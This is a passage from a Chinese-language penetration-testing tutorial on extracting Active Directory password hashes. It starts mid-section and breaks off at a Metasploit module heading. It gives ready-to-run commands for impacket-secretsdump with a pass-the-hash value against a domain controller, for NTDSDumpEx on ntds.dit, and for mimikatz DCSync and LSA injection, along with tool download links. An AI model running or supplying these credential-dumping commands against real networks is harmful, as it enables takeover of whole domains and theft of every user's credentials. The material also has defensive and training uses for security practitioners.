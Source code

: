 ![image-20210224192352578](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224192352578.png)

还可以直接通过用户名和散列值进行验证，从远程域控制器中读取 ntds.dit 并转储域散列值。

```bash
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:de9a868cef19bda26c1b600894efddd7 -just-dc sec.com/administrator@192.168.2.10
```

![image-20210224192929118](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224192929118.png)

#### 2.4 windwos下解析并导出域散列值

软件： NTDSDumpex.exe

下载：https://github.com/zcgonvh/NTDSDumpEx/releases/download/v0.3/NTDSDumpEx.zip

```cmd
.\NTDSDumpEx.exe -d ntds.dit -s system.hive
```



![image-20210224193352486](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224193352486.png)

## 三、利用 dcsync 获取域散列值

#### 3.1 使用mimikatz转储域散列值

需要域管理员权限。

导出域内所有用户的hash：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /all /csv" exit
```

导出域内administrator帐户的hash：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
```

或者直接在域控制器下运行mimikatz

```
mimikatz.exe privilege::debug "lssadump::lsa /inject"
```

#### 3.2 使用 Invoke-DCSync.ps1

https://gist.github.com/monoxgas/9d238accd969550136db

`Invoke-DCSync -PWDumpFormat`后面的参数用于格式化输出散列值

## 四、使用 MSF 获取域散列值

#### 4.1 psexec-ntdsgrab模块
